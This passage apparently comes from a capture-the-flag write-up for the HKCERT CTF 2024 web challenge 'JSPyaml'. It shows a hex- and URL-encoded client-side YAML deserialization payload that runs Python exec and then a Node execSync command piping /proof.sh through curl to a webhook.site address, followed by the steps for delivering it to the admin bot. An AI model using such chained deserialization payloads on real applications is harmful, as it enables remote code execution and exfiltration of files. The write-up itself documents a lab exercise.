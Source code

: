```
%21%21python%2Fobject%2Fnew%3Atype%0A%20%20args%3A%20%5B%22z%22%2C%20%21%21python%2Ftuple%20%5B%5D%2C%20%7B%22extend%22%3A%20%21%21python%2Fname%3Aexec%20%7D%5D%0A%20%20listitems%3A%20%22%5Cx70%5Cx72%5Cx69%5Cx6e%5Cx74%5Cx28%5Cx5f%5Cx5f%5Cx69%5Cx6d%5Cx70%5Cx6f%5Cx72%5Cx74%5Cx5f%5Cx5f%5Cx28%5Cx27%5Cx70%5Cx79%5Cx6f%5Cx64%5Cx69%5Cx64%5Cx65%5Cx27%5Cx29%5Cx2e%5Cx63%5Cx6f%5Cx64%5Cx65%5Cx2e%5Cx72%5Cx75%5Cx6e%5Cx5f%5Cx6a%5Cx73%5Cx28%5Cx27%5Cx64%5Cx6f%5Cx63%5Cx75%5Cx6d%5Cx65%5Cx6e%5Cx74%5Cx2e%5Cx63%5Cx6f%5Cx6f%5Cx6b%5Cx69%5Cx65%5Cx3d%5Cx22%5Cx64%5Cx65%5Cx62%5Cx75%5Cx67%5Cx3d%5Cx6f%5Cx6e%5Cx22%5Cx3b%5Cx63%5Cx6f%5Cx6e%5Cx73%5Cx74%5Cx20%5Cx64%5Cx61%5Cx74%5Cx61%5Cx3d%5Cx6e%5Cx65%5Cx77%5Cx20%5Cx55%5Cx52%5Cx4c%5Cx53%5Cx65%5Cx61%5Cx72%5Cx63%5Cx68%5Cx50%5Cx61%5Cx72%5Cx61%5Cx6d%5Cx73%5Cx28%5Cx29%5Cx3b%5Cx64%5Cx61%5Cx74%5Cx61%5Cx2e%5Cx61%5Cx70%5Cx70%5Cx65%5Cx6e%5Cx64%5Cx28%5Cx22%5Cx79%5Cx61%5Cx6d%5Cx6c%5Cx22%5Cx2c%5Cx20%5Cx61%5Cx74%5Cx6f%5Cx62%5Cx28%5Cx22%5Cx49%5Cx6e%5Cx52%5Cx76%5Cx55%5Cx33%5Cx52%5Cx79%5Cx61%5Cx57%5Cx35%5Cx6e%5Cx49%5Cx6a%5Cx6f%5Cx67%5Cx49%5Cx54%5Cx78%5Cx30%5Cx59%5Cx57%5Cx63%5Cx36%5Cx65%5Cx57%5Cx46%5Cx74%5Cx62%5Cx43%5Cx35%5Cx76%5Cx63%5Cx6d%5Cx63%5Cx73%5Cx4d%5Cx6a%5Cx41%5Cx77%5Cx4d%5Cx6a%5Cx70%5Cx71%5Cx63%5Cx79%5Cx39%5Cx6d%5Cx64%5Cx57%5Cx35%5Cx6a%5Cx64%5Cx47%5Cx6c%5Cx76%5Cx62%5Cx6a%5Cx34%5Cx67%5Cx49%5Cx6d%5Cx5a%5Cx31%5Cx62%5Cx6d%5Cx4e%5Cx30%5Cx61%5Cx57%5Cx39%5Cx75%5Cx49%5Cx43%5Cx67%5Cx70%5Cx65%5Cx32%5Cx4e%5Cx76%5Cx62%5Cx6e%5Cx4e%5Cx76%5Cx62%5Cx47%5Cx55%5Cx75%5Cx62%5Cx47%5Cx39%5Cx6e%5Cx4b%5Cx48%5Cx42%5Cx79%5Cx62%5Cx32%5Cx4e%5Cx6c%5Cx63%5Cx33%5Cx4d%5Cx75%5Cx62%5Cx57%5Cx46%5Cx70%5Cx62%5Cx6b%5Cx31%5Cx76%5Cx5a%5Cx48%5Cx56%5Cx73%5Cx5a%5Cx53%5Cx35%5Cx79%5Cx5a%5Cx58%5Cx46%5Cx31%5Cx61%5Cx58%5Cx4a%5Cx6c%5Cx4b%5Cx43%5Cx64%5Cx6a%5Cx61%5Cx47%5Cx6c%5Cx73%5Cx5a%5Cx46%5Cx39%5Cx77%5Cx63%5Cx6d%5Cx39%5Cx6a%5Cx5a%5Cx58%5Cx4e%5Cx7a%5Cx4a%5Cx79%5Cx6b%5Cx75%5Cx5a%5Cx58%5Cx68%5Cx6c%5Cx59%5Cx31%5Cx4e%5Cx35%5Cx62%5Cx6d%5Cx4d%5Cx6f%5Cx4a%5Cx32%5Cx4e%5Cx68%5Cx64%5Cx43%5Cx41%5Cx76%5Cx63%5Cx48%5Cx4a%5Cx76%5Cx62%5Cx32%5Cx59%5Cx75%5Cx63%5Cx32%5Cx67%5Cx67%5Cx66%5Cx43%5Cx42%5Cx69%5Cx59%5Cx58%5Cx4e%5Cx6c%5Cx4e%5Cx6a%5Cx51%5Cx67%5Cx4c%5Cx58%5Cx63%5Cx77%5Cx49%5Cx48%5Cx77%5Cx67%5Cx59%5Cx33%5Cx56%5Cx79%5Cx62%5Cx43%5Cx41%5Cx74%5Cx5a%5Cx43%5Cx42%5Cx41%5Cx4c%5Cx53%5Cx42%5Cx6f%5Cx64%5Cx48%5Cx52%5Cx77%5Cx63%5Cx7a%5Cx6f%5Cx76%5Cx4c%5Cx33%5Cx64%5Cx6c%5Cx59%5Cx6d%5Cx68%5Cx76%5Cx62%5Cx32%5Cx73%5Cx75%5Cx63%5Cx32%5Cx6c%5Cx30%5Cx5a%5Cx53%5Cx38%5Cx78%5Cx5a%5Cx47%5Cx56%5Cx6b%5Cx4e%5Cx6a%5Cx41%5Cx78%5Cx5a%5Cx43%5Cx31%5Cx6d%5Cx4d%5Cx32%5Cx59%5Cx78%5Cx4c%5Cx54%5Cx51%5Cx77%5Cx5a%5Cx57%5Cx49%5Cx74%5Cx59%5Cx54%5Cx6b%5Cx35%5Cx59%5Cx79%5Cx31%5Cx68%5Cx59%5Cx6a%5Cx6b%5Cx33%5Cx4e%5Cx44%5Cx59%5Cx7a%5Cx4e%5Cx44%5Cx59%5Cx30%5Cx4d%5Cx6a%5Cx55%5Cx6e%5Cx4b%5Cx53%5Cx35%5Cx30%5Cx62%5Cx31%5Cx4e%5Cx30%5Cx63%5Cx6d%5Cx6c%5Cx75%5Cx5a%5Cx79%5Cx67%5Cx70%5Cx4b%5Cx58%5Cx30%5Cx69%5Cx22%5Cx29%5Cx29%5Cx3b%5Cx66%5Cx65%5Cx74%5Cx63%5Cx68%5Cx28%5Cx22%5Cx2f%5Cx2f%5Cx6c%5Cx6f%5Cx63%5Cx61%5Cx6c%5Cx68%5Cx6f%5Cx73%5Cx74%5Cx3a%5Cx33%5Cx30%5Cx30%5Cx30%5Cx2f%5Cx64%5Cx65%5Cx62%5Cx75%5Cx67%5Cx22%5Cx2c%5Cx7b%5Cx6d%5Cx65%5Cx74%5Cx68%5Cx6f%5Cx64%5Cx3a%5Cx22%5Cx50%5Cx4f%5Cx53%5Cx54%5Cx22%5Cx2c%5Cx62%5Cx6f%5Cx64%5Cx79%5Cx3a%5Cx64%5Cx61%5Cx74%5Cx61%5Cx7d%5Cx29%5Cx27%5Cx29%5Cx29%22
```

This allows us to send the payload to the bot without having some weird YAML syntax error.

- Send URL `http://localhost:3000/#<client-side_YAML_deserialization_payload_here>` to the bot

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2024/images/Pasted%20image%2020241117220837.png)

> Note: Don't worry about the hCaptcha warning. We disabled it on the server-side.

- Receiving the POST request on our webhook site

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2024/images/Pasted%20image%2020241117221005.png)

Decoded base64 string:

```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2024/Web/JSPyaml)-[2024.11.17|21:57:18(HKT)]
└> echo -n 'IyEvYmluL3NoCmVjaG8gaGtjZXJ0MjJ7MjIyMjIyMjIyMjIyMjIyMjIyMjJ9' | base64 -d
#!/bin/sh
echo hkcert22{22222222222222222222}
```
